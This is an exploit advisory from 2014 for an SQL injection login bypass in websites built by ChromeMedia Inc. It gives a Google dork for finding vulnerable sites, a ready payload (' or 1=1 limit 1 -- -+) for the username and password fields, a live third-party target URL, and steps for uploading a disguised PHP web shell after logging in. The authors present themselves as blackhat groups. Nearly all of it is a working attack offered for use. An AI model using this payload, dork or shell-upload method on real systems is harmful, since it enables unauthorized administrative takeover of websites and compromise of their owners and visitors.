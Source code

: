 # Web Design by ChromeMedia Inc SQL Injection Vulnerability

* Exploit Title        : Web Design by ChromeMedia Inc SQL Injection Vulnerability
* Google Dork          : - intext:Web Design by ChromeMedia Inc | "Explore Your Brain !!"
* Date                 : 16/06/2014
* Exploit Author       : Fathur Freakz ft Barrabravaz
* Vendor Homepage      : http://www.chromemedia.com
* Version              : -
* Tested on            : Windows, Linux, Mac

## Author will be not responsible for any damage
* Issue: SQL Injection Bypass Login
* Risk level: High

> The remote attacker has the possibility to manage the website.
> The remote attacker is able to login into website with access level as admin.

## Proof Of Concept:
> http://127.0.0.1/manage/login.php

##### Username :  ` ' or 1=1 limit 1 -- -+ `
##### Password :  ` ' or 1=1 limit 1 -- -+ `

## LIVE DEMO
> http://www.kwdoor.com/manage/login.php

## How
* Login > Site Pages > [ Company Profile ] > Upload Photo
* Upload shell with  shell.php.jpg

## Thanks To
* Bang Galih
* Beb Hafid
* Yoga Harvananda
* Mas Nico
* Nindya
* Yogyakarta still BlackHat
* SunDi3yansyah
* And You

## Developer
* SurabayaBlackHat
* YogyakartaBlackHat